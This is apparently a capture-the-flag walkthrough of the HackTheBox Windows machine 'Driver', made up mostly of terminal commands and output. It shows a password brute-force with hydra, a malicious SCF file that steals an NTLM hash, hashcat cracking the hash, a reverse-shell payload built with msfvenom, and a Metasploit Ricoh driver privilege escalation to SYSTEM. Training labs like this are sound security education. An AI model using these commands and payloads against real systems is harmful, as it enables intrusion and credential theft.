






# CTF Penetration Testing

## Platform: HackTheBox

### Machine: [Driver](https://www.hackthebox.com/machines/Driver)


- Machine type:  Windows
- Machine difficulty: 🟩 Easy (4.1)

> **Driver** is an Easy Windows machine that focuses on printer exploitation. Enumeration of the machine reveals that a web server is listening on port 80, along with SMB on port 445 and WinRM on port 5985. Navigation to the website reveals that it's protected using basic HTTP authentication. While trying common credentials the `admin:admin` credential is accepted and we are able to visit the webpage. The webpage provides a feature to upload printer firmwares on an SMB share for a remote team to test and verify. Uploading a Shell Command File that contains a command to fetch a remote file from our local machine, leads to the NTLM hash of the user `tony` relayed back to us. Cracking the captured hash to retrieve a plaintext password we are able login as `tony`, using WinRM. Then, switching over to a Meterpreter session it is discovered that the machine is vulnerable to a local privilege exploit that abuses a specific printer driver that is present on the remote machine. Using the exploit we can get a session as `NT AUTHORITY\SYSTEM`.

#### Skills Learned

- ****
- ****
- ****
- 

#### Tools Used

Linux:
- `nmap`
- `whatweb`
- `hydra`
- `burpsuite`
- `responder`
- `hashcat`
- `netexec`
- `evil-winrm`
- ``
- ``
Windows:
- ``
- ``

#### Machine Writeup

```
┌──(nabla㉿kali)-[~]
└─$ ifconfig tun0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.144  netmask 255.255.254.0  destination 10.10.14.144

[SNIP]
```

```
┌──(nabla㉿kali)-[~]
└─$ echo -e '10.129.176.110\tdriver.htb' | sudo tee -a /etc/hosts

10.129.176.110	driver.htb
```

```
┌──(nabla㉿kali)-[~]
└─$ ports=$(nmap -p- driver.htb -T4 --min-rate=1000 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
```

```
┌──(nabla㉿kali)-[~]
└─$ echo $ports

80,135,445,5985
```

```
┌──(nabla㉿kali)-[~]
└─$ nmap -Pn -p$ports -sSVC driver.htb -T4

[SNIP]

PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

```
┌──(nabla㉿kali)-[~]
└─$ whatweb http://driver.htb

http://driver.htb [401 Unauthorized] Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/10.0], IP[10.129.176.110], Microsoft-IIS[10.0], PHP[7.3.25], WWW-Authenticate[MFP Firmware Update Center. Please enter password for admin][Basic], X-Powered-By[PHP/7.3.25]
```





```
┌──(nabla㉿kali)-[~]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt -f driver.htb -s 80 http-get /

[SNIP]

[80][http-get] host: driver.htb   login: admin   password: admin
```







```
┌──(nabla㉿kali)-[~]
└─$ vim attack.scf

[Shell]
Command=2
IconFile=\\10.10.14.144\attack
[Taskbar]
Command=ToggleDesktop
```

```
┌──(nabla㉿kali)-[~]
└─$ sudo responder -I tun0 -wF

[SNIP]

[+] Listening for events...

[CONTINUE]
```



```
[CONTINUE]

[SMB] NTLMv2-SSP Client   : 10.129.176.110
[SMB] NTLMv2-SSP Username : DRIVER\tony
[SMB] NTLMv2-SSP Hash     : tony::DRIVER:5ab8193557511121:F98F2775543E28E680A48C4EBB0376B8:01010000000000008075D8FB72EADB0117892D8FE18DA4ED0000000002000800300031004400450001001E00570049004E002D0053005800510050004F0058004C00440033005700410004003400570049004E002D0053005800510050004F0058004C0044003300570041002E0030003100440045002E004C004F00430041004C000300140030003100440045002E004C004F00430041004C000500140030003100440045002E004C004F00430041004C00070008008075D8FB72EADB0106000400020000000800300030000000000000000000000000200000B4DB78B3C7803188A441A76BB60DF53C208718D473B734D87B4AA7BB7E9D81640A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310034002E00310034003400000000000000000000000000
[*] Skipping previously captured hash for DRIVER\tony
```

```
┌──(nabla㉿kali)-[~]
└─$ vim hash.txt

tony::DRIVER:5ab8193557511121:F98F2775543E28E680A48C4EBB0376B8:01010000000000008075D8FB72EADB0117892D8FE18DA4ED0000000002000800300031004400450001001E00570049004E002D0053005800510050004F0058004C00440033005700410004003400570049004E002D0053005800510050004F0058004C0044003300570041002E0030003100440045002E004C004F00430041004C000300140030003100440045002E004C004F00430041004C000500140030003100440045002E004C004F00430041004C00070008008075D8FB72EADB0106000400020000000800300030000000000000000000000000200000B4DB78B3C7803188A441A76BB60DF53C208718D473B734D87B4AA7BB7E9D81640A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310034002E00310034003400000000000000000000000000
```

```
┌──(nabla㉿kali)-[~]
└─$ hashcat --example-hashes | grep -i 'ntlmv2' -B20

[SNIP]

  Name................: NetNTLMv1 / NetNTLMv1+ESS
  Category............: Network Protocol
  Slow.Hash...........: No
  Password.Len.Min....: 0
  Password.Len.Max....: 256
  Salt.Type...........: Embedded
  Salt.Len.Min........: 0
  Salt.Len.Max........: 256
  Kernel.Type(s)......: pure, optimized
  Example.Hash.Format.: plain
  Example.Hash........: ::5V4T:ada06359242920a500000000000000000000000000000000:0556d5297b5daa70eaffde82ef99293a3f3bb59b7c9704ea:9c23f6c094853920
  Example.Pass........: hashcat
  Benchmark.Mask......: ?b?b?b?b?b?b?b
  Autodetect.Enabled..: Yes
  Self.Test.Enabled...: Yes
  Potfile.Enabled.....: Yes
  Custom.Plugin.......: No
  Plaintext.Encoding..: ASCII, HEX

Hash mode #5600
  Name................: NetNTLMv2
```

```
┌──(nabla㉿kali)-[~]
└─$ hashcat -m 5600 ./hash.txt /usr/share/wordlists/rockyou.txt

[SNIP]

TONY::DRIVER:5ab8193557511121:f98f2775543e28e680a48c4ebb0376b8:01010000000000008075d8fb72eadb0117892d8fe18da4ed0000000002000800300031004400450001001e00570049004e002d0053005800510050004f0058004c00440033005700410004003400570049004e002d0053005800510050004f0058004c0044003300570041002e0030003100440045002e004c004f00430041004c000300140030003100440045002e004c004f00430041004c000500140030003100440045002e004c004f00430041004c00070008008075d8fb72eadb0106000400020000000800300030000000000000000000000000200000b4db78b3c7803188a441a76bb60df53c208718d473b734d87b4aa7bb7e9d81640a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310034002e00310034003400000000000000000000000000:liltony
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
```

```yaml
credentials:
    username: driver/tony
    password: "liltony"
    protocol: smb,winrm
    host: DRIVER.driver.htb
    port: 445,5985
```

```
┌──(nabla㉿kali)-[~]
└─$ netexec smb driver.htb -u 'tony' -p 'liltony'

SMB         10.129.176.110  445    DRIVER           [*] Windows 10 Enterprise 10240 x64 (name:DRIVER) (domain:DRIVER) (signing:False) (SMBv1:True)
SMB         10.129.176.110  445    DRIVER           [+] DRIVER\tony:liltony
```

```
┌──(nabla㉿kali)-[~]
└─$ netexec winrm driver.htb -u 'tony' -p 'liltony'

WINRM       10.129.176.110  5985   DRIVER           [*] Windows 10 Build 10240 (name:DRIVER) (domain:DRIVER)
WINRM       10.129.176.110  5985   DRIVER           [+] DRIVER\tony:liltony (Pwn3d!)
```

```
┌──(nabla㉿kali)-[~]
└─$ evil-winrm -i driver.htb -u 'tony' -p 'liltony'

[SNIP]

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\tony\Documents> 
```

```
*Evil-WinRM* PS C:\Users\tony\Documents> type C://Users//tony//Desktop//user.txt

78df0*************************** 🚩
```

```
*Evil-WinRM* PS C:\Users\tony\Documents> type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

Add-Printer -PrinterName "RICOH_PCL6" -DriverName 'RICOH PCL6 UniversalDriver V4.23' -PortName 'lpt1:'

ping 1.1.1.1
```

```
┌──(nabla㉿kali)-[~]
└─$ searchsploit ricoh driver --json | jq '.RESULTS_EXPLOIT[] | {Title, Codes, Path}'

[SNIP]

{
  "Title": "Ricoh Driver - Privilege Escalation (Metasploit)",
  "Codes": "CVE-2019-19363",
  "Path": "/usr/share/exploitdb/exploits/windows/local/48036.rb"
}
```

```
┌──(nabla㉿kali)-[~]
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.144 LPORT=1337 -f exe -o ./revsh.exe

[SNIP]

Final size of exe file: 73802 bytes
Saved as: ./revsh.exe
```

```
┌──(nabla㉿kali)-[~]
└─$ msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 10.10.14.144; set LPORT 1337; run"

[SNIP]

[*] Started reverse TCP handler on 10.10.14.144:1337

[CONTINUE]
```

```
*Evil-WinRM* PS C:\Users\tony\Documents> ./revsh.exe
```

```
[CONTINUE]

[*] Sending stage (177734 bytes) to 10.129.176.110
[*] Meterpreter session 1 opened (10.10.14.144:1337 -> 10.129.176.110:49443) at 2025-07-01 11:16:08 -0500

(Meterpreter 1)(C:\Users\tony\Documents) >
```

```
(Meterpreter 1)(C:\Users\tony\Documents) > ps

[SNIP]

 2204  660   wsmprovhost.exe          x64   0        DRIVER\tony  C:\Windows\System32\wsmprovhost.exe
 2320  572   dllhost.exe
 2456  572   msdtc.exe
 2536  660   WmiPrvSE.exe
 2668  572   svchost.exe
 2808  572   svchost.exe
 2856  572   SearchIndexer.exe
 2896  812   cmd.exe                  x64   1        DRIVER\tony  C:\Windows\System32\cmd.exe
 2916  812   taskhostw.exe            x64   1        DRIVER\tony  C:\Windows\System32\taskhostw.exe
 3116  2896  conhost.exe              x64   1        DRIVER\tony  C:\Windows\System32\conhost.exe
 3252  3232  explorer.exe             x64   1        DRIVER\tony  C:\Windows\explorer.exe

[SNIP]
```

```
(Meterpreter 1)(C:\Users\tony\Documents) > migrate 2916

[*] Migrating from 4724 to 2916...
[*] Migration completed successfully.
```

```
(Meterpreter 1)(C:\Users\tony\Documents) > bg
[*] Backgrounding session 1...

[msf](Jobs:0 Agents:1) exploit(multi/handler) >> use exploit/windows/local/ricoh_driver_privesc
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> set PAYLOAD windows/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> set SESSION 1
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> set LHOST 10.10.14.144
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> set LPORT 7331
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> run

[SNIP]

[*] Adding printer YAAKiw...
[*] Sending stage (203846 bytes) to 10.129.176.110
[+] Deleted C:\Users\tony\AppData\Local\Temp\IyXCW.bat
[+] Deleted C:\Users\tony\AppData\Local\Temp\headerfooter.dll
[*] Meterpreter session 2 opened (10.10.14.144:7331 -> 10.129.176.110:49445) at 2025-07-01 11:44:17 -0500
[*] Deleting printer YAAKiw

(Meterpreter 2)(C:\Windows\system32) >
```

```
(Meterpreter 2)(C:\Windows\system32) > getuid
Server username: NT AUTHORITY\SYSTEM
```

```
(Meterpreter 2)(C:\Windows\system32) > type C://Users//Administrator//Desktop//root.txt

6b91f*************************** 🚩
```


---
---
